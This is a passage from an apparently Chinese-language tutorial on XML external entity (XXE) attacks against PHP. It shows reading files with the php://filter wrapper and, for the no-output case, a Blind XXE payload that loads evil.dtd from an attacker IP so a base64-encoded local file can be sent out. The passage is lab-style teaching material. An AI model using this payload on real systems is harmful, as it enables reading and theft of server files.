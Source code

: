 [![](assets/1698897471-3d47a5a8ebaebe984044cb773cfb735f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151724-c9bd6404-14d3-1.jpg)  
当然，也可以使用`php://filter`协议读取 qwzf.txt 文件内容 (也可以读取其他类型的文件，如：php 文件)

```bash
php://filter/read=convert.base64-encode/resource=
```

1.  无回显

修改源码，禁掉输出代码和报错信息，改成无回显。  
[![](assets/1698897471-54fdf325bf20d983ac4eb6f637075d6f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151758-dde2ceb0-14d3-1.jpg)  
遇到无回显，可以通过`Blind XXE`方法加上外带数据通道来提取数据，先使用`php://filter`协议获取目标文件的内容，然后将内容以`http`请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器 (攻击服务器)。

这里我使用的攻击机 ip 为：`192.168.201.128`

构造 payload

```bash
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://192.168.201.128/evil.dtd">
%dtd;
%send;
]>
```
